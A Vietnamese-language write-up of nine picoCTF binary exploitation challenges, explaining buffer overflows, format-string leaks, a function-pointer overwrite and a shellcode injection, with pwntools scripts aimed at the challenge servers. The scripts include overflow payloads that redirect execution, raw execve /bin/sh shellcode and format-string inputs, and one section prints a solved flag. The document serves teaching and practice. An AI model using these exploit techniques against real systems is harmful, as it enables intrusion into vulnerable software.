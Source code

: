 <details>
<summary>1. Buf0 </summary>
    
- Bài này cho 1 file source và 1 file binary
- Mình đọc file source thì thấy nó sẽ gọi hàm in flag nếu bị overflow. Ngoài ra có hàm `gets` khiến ta nhập tuỳ thích và `strcpy` làm buf2 bị overflow nếu len input > 16

![](https://i.imgur.com/6FYe0IP.png)

- Vậy mình chỉ cần input đủ dài (>16) là được
    
![](https://i.imgur.com/azBQ14m.png)

- Kết nối chạy thử và ta đã lấy được flag
</details>

<details>
<summary>2. Buf1 </summary>
    
- Bài này cho 1 file source và 1 file binary
- Mình đọc file source thì thấy có hàm win để lấy shell. Ngoài ra có lỗi buffer overflow do `gets` ở hàm `vuln`

![](https://i.imgur.com/NzkGj1c.png)

- Checksec thử thì thấy tắt hết nên ta chỉ cần gdb rồi tìm padding oveflow như bình thường là được.

![](https://i.imgur.com/OeG97Qy.png)

- Script:
```python
from pwn import *
exe = ELF("vuln")
p= remote("saturn.picoctf.net",62172)
payload = b"A"*44 + p32(exe.sym['win'])
p.sendlineafter(b'string: \n',payload)
p.interactive()
```

- Chạy script và ta sẽ có được flag.
    
</details>



<details>
<summary>3. Buf2 </summary>
    
- Bài này cho 1 file source và 1 file binary
- Mình đọc file source thì thấy có lỗi overflow khi nhập bằng hàm `gets`.
    
![](https://i.imgur.com/Hz2ObzC.png)

- Tiếp theo có hàm `win` sẽ cho ta flag nếu thoả 2 arguments. Sau đó ta `checksec`
    
![](https://i.imgur.com/Qv2sVET.png)
    
- Đây là file 32 bit và theo calling convention thì argument sẽ được push lên stack theo reverse order.
- Vậy bài này ta sẽ lợi dụng buffer overflow để chuyển return address của hàm `vuln` qua hàm `win`
- Để biết chắc chắn arguments nằm ở đâu mình sẽ gdb, sẵn tìm padding luôn
    
![](https://i.imgur.com/CJgpqkb.png)

![](https://i.imgur.com/SwIHfOY.png)
    
- Stack frame khi chạy qua hàm `win` sẽ có dạng như sau:
    
![](https://i.imgur.com/l8sAJiJ.png)

- Do đó ta cần padding thêm 4 byte trước khi đưa argument. Vậy thứ tự payload sẽ là:  112 byte padding + address của `win` + 4 byte padding + `0xcafef00d` + `0xf00df00d`
- Script:
```python=
from pwn import *

exe = ELF("vuln")
p=remote("saturn.picoctf.net",51014)
payload = b'A'*112 +p32(exe.sym['win'])+b'A'*4+p32(0xcafef00d)+p32(0xf00df00d)
p.sendlineafter(b'string: \n',payload)
p.interactive()
```
    
- Chạy script trên ta sẽ có được flag
</details>
  
<details>
<summary>4. x-sixty-what </summary>
    
- Bài này cho 1 file source và 1 file binary
- Mình đọc file source thì thấy bị overflow do hàm `gets`. Ngoài ra cũng có hàm `flag` in ra flag.
    
![](https://i.imgur.com/63lgjEU.png)

![](https://i.imgur.com/dNKRd0d.png)

- Vậy ta sẽ overflow ret address của `vuln` thành hàm `flag`.
- Sau đó ta vào gdb tìm padding

![](https://i.imgur.com/XnLuZBp.png)

- Rồi viết script để chạy:
```python
from pwn import *
exe=ELF("vuln")
p=remote("saturn.picoctf.net",62515)
payload = b'A'*72+p64(exe.sym['flag'])
p.sendlineafter(b'flag: \n',payload)
p.interactive()
```
- Chạy thử thì ta sẽ bị lỗi xmm1 do `win` có push lên stack làm rsp không chia hết cho 16. Vậy ta chỉ ret vào sau hàm push.

- Final script:
```python
from pwn import *
exe=ELF("vuln")
p=remote("saturn.picoctf.net",62515)
payload = b'A'*72+p64(exe.sym['flag']+5)
p.sendlineafter(b'flag: \n',payload)
p.interactive()
```
</details>

<details>
<summary>5. flag leak </summary>
    
- Bài này cho 1 file source và 1 file binary
- Đầu tiên ta mở file source lên đọc. Nhận thấy có lỗi format string ở hàm `vuln`, vậy ta sẽ lợi dụng nó để đọc flag đã được mở trước đó.
    
![](https://i.imgur.com/3dwtEuA.png)

- Tiếp theo ta checksec thì nhận thấy đây là file 32 bit. Theo calling convention thì arguments sẽ được push lên stack. Do đó ta sẽ gdb để xem offset.
    
![](https://i.imgur.com/XCuPhPk.png)

- Ta tính ra được 20. Vậy ta chỉ cần input `%20$s` để leak flag. Mình chạy local trên máy mình thì ra được flag nhưng remote thì lại không được (chắc tại khác môi trường) nên mình thử những giá trị lân cận đó thì được `%24$s` là ra được flag

![](https://i.imgur.com/tTL0YPX.png)

</details>

<details>
<summary>6. ropfu </summary>
    
- Bài này cho 1 file source và 1 file binary
- Đầu tiên ta mở file source lên xem thử
    
![](https://i.imgur.com/PPDimxc.png)

- Vậy là có lỗi buffer overflow, trong source không có chỗ nào để lấy shell nên ta checksec thử.
    
![](https://i.imgur.com/dceyyPo.png)

- NX,PIE disable nên bài này mình làm ret2shell cho dễ
- Vậy ta gdb tìm offset để tính tiếp.
    
![](https://i.imgur.com/xns3FVp.png)

- Ta được offset là 28 và khi đó eax chứa địa chỉ của buffer mình nhập. Vậy thì ta cần kiếm gadget jmp vào eax hoặc call eax. Mình thử thì chạy call eax thì được còn jmp eax thì không.

- Script (shellcode mình chôm trên mạng):
```python
from pwn import *

p = remote("saturn.picoctf.net",53296)
call_eax = 0x0804901d
shell = b'\x83\xec\x50\x31\xd2\x52\x31\xc9\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\xcd\x80'
payload =shell + b'A'*(28-len(shell)) + p32(call_eax)
p.sendlineafter(b'grasshopper!\n',payload)
p.interactive()
```
- Chạy thử và ta có được shell và chỉ cần lấy flag.

</details>

<details>
<summary>7. function overwrite </summary>
    
- Bài này cho 1 file source và 1 file binary
- Đầu tiên mình đọc file source thì thấy ta sẽ lấy được flag nếu kết quả của `calculate_story_score` bằng 13371337. Nhưng điều này là không khả thi vì len của `story` là 128 và chúng ta không thể input được string sau cho ra đúng yêu cầu đề bài.
- Xem kỹ source ta sẽ thấy hàm `check` trỏ về hàm `hard_checker` và có lệnh này ở hàm vuln

![](https://i.imgur.com/PApsYT7.png)

- `If num1 < 10` tức ta có thể input số âm. Ngoài ra ta có `type a[i]` tương đương truy cập với `địa chỉ của a + i*sizeof(type)` do đó ta có thể lợi dụng điều này để khiến hàm fun trở về hàm check sau đó sử dụng giá trị trong đây để nhảy về hàm khác.
                
- Ta đi tìm địa chỉ hàm fun và check
                
![](https://i.imgur.com/NJggbyl.png)

- Ta giải phương tình sau để tìm ra được i: `0x0804c080+4*i=0x0804c040`. Vây ta cần nhập `-16` để hàm fun trỏ về hàm check. Sau đó ta cần tìm offset để điều chỉnh cho hợp lý.
                
![](https://i.imgur.com/VWwT2N9.png)

- Mình sẽ nhảy vào `hardchecker+47` để bypass khúc check bằng 13371337 phí trên. Vậy ta cần nhập số thứ 2 là 47.

- Vậy ta kết nối với server và lấy flag. Lần nhập đầu tiên thì nhập đại cái nào cũng được nhưng lần thứ 2 sẽ là `-16 47`

![](https://i.imgur.com/hkAvnDg.png)

</details>
    
<details>
<summary>8. Stack Cache </summary>
    
- Bài này cho 1 file source và 1 file binary
- Mình đọc file source thì thấy bị overflow do `gets` ở hàm `vuln`, ngoài ra có hàm `win` được gọi tới sẽ load file `flag.txt`. Còn có thêm hàm `underconstruction` in ra `%p %p` nhưng khúc trên không khai báo, vậy đây tương đương lỗi format string
    
![](https://i.imgur.com/8nlBQKD.png)

- Tiếp theo mình `checksec`. Nhận thấy có canary bật và đây là file 32 bit.

![](https://i.imgur.com/khwUh32.png)

- Vậy mình gdb để xem sao thì nhận thấy trước khi ret nó không hề check canary nên ta sẽ thoải mái overflow nhảy qua hàm win sau đó là hàm underconstruction để leak flag.

- Ta sài gdb tìm offset như bình thường sau đó nhảy qua hàm underconstruction xem thử leak gì

![](https://i.imgur.com/WlvNN5X.png)

- Flag lúc này đã được reverse vậy thì khi %p sẽ leak flag từ dưới lên trên.

- Ta viết script kết nối với server thì nhận được dãy hex sau:

![](https://i.imgur.com/dj7DRF4.png)

- Sau đó ta decode dãy trên

![](https://i.imgur.com/MToubYx.png)

- Rồi reverse lại thủ công bằng tay tiếp thì ta được flag `picoCTF{Cle4N_uP_M3m0rY_c7f3d997}` 

- Script : 
```python
from pwn import *
exe = ELF("vuln")
p= remote("saturn.picoctf.net",61570)
payload = b"a"*14 + p32(exe.sym['win'])+p32(exe.sym['UnderConstruction'])

p.sendlineafter(b'flag\n',payload)
p.interactive()
```
</details>
    
<details>
<summary>9. basic file exploit </summary>
    
- Bài này chỉ cho 1 file source
- Đầu tiên ta mở lên coi có gì thì nhận thấy file gần 200 line và đầu file có khai báo flag

![](https://i.imgur.com/sa1zC83.png)

- Vậy mục đích là làm sao để in được file flag này ra. 
- Ta ctrl-f kiếm thử coi flag có được sài ở đâu không thì thấy có ở hàm `data_read()`

![](https://i.imgur.com/M7GNSCR.png)

- Vậy ta cần làm thoả mãn điều kiện sau: `entry_number = strtol(entry, NULL, 10)) == 0`

- Ta phân tích như sau : hàm `strtol` sẽ chuyển `entry` từ string sang int (hệ 10) tức là chuỗi '123' sẽ thành số 123 sau đó gán cho `entry_number` rồi check `entry_number` có bằng 0 hay không. Vậy mục đích của ta là làm cho `strtol` return 0.

![](https://i.imgur.com/GdPTvWJ.png)

- Đọc man page thì ta nhận thấy hàm này chỉ return 0 khi bị lỗi không convert được hoặc số entry number ta nhập là số 0.

![](https://i.imgur.com/Rimb0HK.png)

- Cách nào cũng được vậy thì ta thử cách nhập số 0.
- Control flow của chương trình như sau : Nhập input -> check input là 1,2 hay 3 rồi thực hiện tương ứng. Để nhập được entry number là 0 thì ta trước đó phải chọn số 1 để ghi vào trước (ghi gì cũng được). 

- Ta thực hiện ý tưởng trên và có được flag

![](https://i.imgur.com/HyuRg9T.png)

</details>
